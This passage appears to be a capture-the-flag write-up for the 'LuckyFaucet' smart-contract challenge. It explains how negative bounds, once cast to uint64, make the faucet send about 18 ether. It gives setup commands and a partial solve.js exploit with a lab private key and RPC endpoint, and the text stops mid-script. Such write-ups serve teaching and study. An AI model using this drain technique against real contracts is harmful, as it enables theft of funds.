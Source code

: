 Let's try to do some calculations. We want the `amountToSend` to be large because of the conversion, then this implies that the `randomInt % (upperBound - lowerBound + 1) + lowerBound` to be a small negative number like `-1`, `-2`.

If we set the `upperBound` to `-1` and the `lowerBound` to `-2` then: `randomInt % (-1 - -2 + 1) + -2 = randomInt % 2 - 2`. `randomInt % 2` is either `0` or `1`, so the whole statement is either `-2`, `-1`. Converting this number to `uint64` is either `18446744073709551614`, `18446744073709551615`. This is almost 20 ether so we are good.

I've created a [`solve.js`](files/solve.js) files which sets the bounds and calls the `sendRandomETH`. Also compiled the contracts to get the ABI JSON files ([`LuckyFaucet_sol_LuckyFaucet.json`](files/LuckyFaucet_sol_LuckyFaucet.json), [`Setup_sol_Setup.json`](files/Setup_sol_Setup.json)):

```bash
$ sudo apt install nodejs
$ sudo apt install npm
$ sudo npm i -g web3
$ sudo npm i -g sol
$ sudo npm i -g solc@0.8.23
$ export NODE_PATH=$(npm root --quiet -g)
$ npx solcjs Setup.sol --bin --abi
```

```javascript
const Web3 = require('web3');

const web3 = new Web3.Web3(new Web3.Web3.providers.HttpProvider('http://83.136.249.153:33087'));

const privateKey = '0xbcbd57858f1e0604060bc2e6e4075589c95cbfdf3c8f05dac5963ff129393f37'
const signer = web3.eth.accounts.privateKeyToAccount(privateKey);
const Setup_deployedAddress = '0x4e1CA36DbC9a3a5C46B32D664111CB87253b6582';
const LuckyFaucet_deployedAddress = '0xC6F79C7Daf5943FC196C7d41f1A8F6802Db93D49';

const Setup_abi = require('./Setup_sol_Setup.json');
const SetupContract = new web3.eth.Contract(Setup_abi, Setup_deployedAddress);
const LuckyFaucet_abi = require('./LuckyFaucet_sol_LuckyFaucet.json');
const LuckyFaucetContract = new web3.eth.Contract(LuckyFaucet_abi, LuckyFaucet_deployedAddress);

function getBalance(address) {
  web3.eth.getBalance(address)
    .then(balance => {
      const etherBalance = web3.utils.fromWei(balance, 'ether');
      console.log(`Balance of ${address}: ${etherBalance} ETH`);
    })
    .catch(error => console.error('Error getting balance:', error));
}

async function callIsSolved() {
  return SetupContract.methods.isSolved().call();
}

async function getBounds() {
    await LuckyFaucetContract.methods.lowerBound().call().then(
      value => console.log('lowerBound: ', value)
    ).catch(error => console.error('Error calling lowerBound: ', error));

    await LuckyFaucetContract.methods.upperBound().call().then(
        value => console.log('upperBound: ', value)
      ).catch(error => console.error('Error calling upperBound: ', error));
  }

async function callSetBounds(lower, upper) {
  await LuckyFaucetContract.methods.setBounds(lower, upper).send({
      from: signer.address,
      gas: 1000000,
    }).then(
```